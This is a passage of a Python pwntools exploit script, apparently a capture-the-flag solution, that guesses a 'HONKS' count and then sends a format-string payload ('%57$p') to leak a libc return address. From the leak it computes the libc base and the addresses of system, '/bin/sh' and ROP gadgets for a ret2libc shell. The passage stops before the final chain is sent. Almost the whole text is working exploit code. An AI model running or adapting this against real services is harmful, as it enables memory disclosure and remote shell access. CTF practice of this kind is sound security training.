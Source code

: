 ```python
session.sendline(payload)

#2nd:HONKS count guessing
wait_messages = b"how many honks?"
session.recvuntil(wait_messages)
payload = str(HONK_cnt).encode()
session.sendline(payload)

#receive all
res=b""
while True:
    try:
        chunk = session.recv(timeout=0.5)
        if not chunk:
            break
        res += chunk
    except EOFError:
        break

print(f"HONK_messages:{res.decode()}")
print("---------------------------------------------------------------")

#judge
keyword = b"what's your name again?"
if res.find(keyword) == -1:
    print("HONKS count is incorrect :( Please retry...")
    exit()
else:
    print("HONKS count is correct! :D")

print("---------------------------------------------------------------")

#3rd: leak the libc address
payload = b"%57$p"  # from saved rip
session.sendline(payload)
res = session.recv().decode()
addresses = re.findall(r"0x[0-9a-fA-F]+", res)             #leak address : libc_start_call_main +122
libc_start_main_addr = int(addresses[0], 16) - 122 + 0xb0  #__libc_start_main = libc_start_call_main + 0xb0  


#gadget calculation
libc = ELF(libc_file, checksec=False)
rop = ROP(libc)
libc_start_main_offset = libc.symbols['__libc_start_main']
system_offset = libc.symbols['system']
binsh_offset = next(libc.search(b"/bin/sh"))
pop_rdi_ret_offset = rop.find_gadget(['pop rdi', 'ret']).address
ret_offset = rop.find_gadget(['ret']).address

libc_base_addr = libc_start_main_addr - libc_start_main_offset
system_addr = libc_base_addr + system_offset
binsh_addr = libc_base_addr + binsh_offset
pop_rdi_ret = libc_base_addr + pop_rdi_ret_offset 
ret = libc_base_addr + ret_offset

print(f"libc_base_addr:{hex(libc_base_addr)}")
print(f"system_addr:{hex(system_addr)}")
print(f"binsh_addr:{hex(binsh_addr)}")
print(f"pop_rdi_ret:{hex(pop_rdi_ret)}")
print(f"ret:{hex(ret)}")

```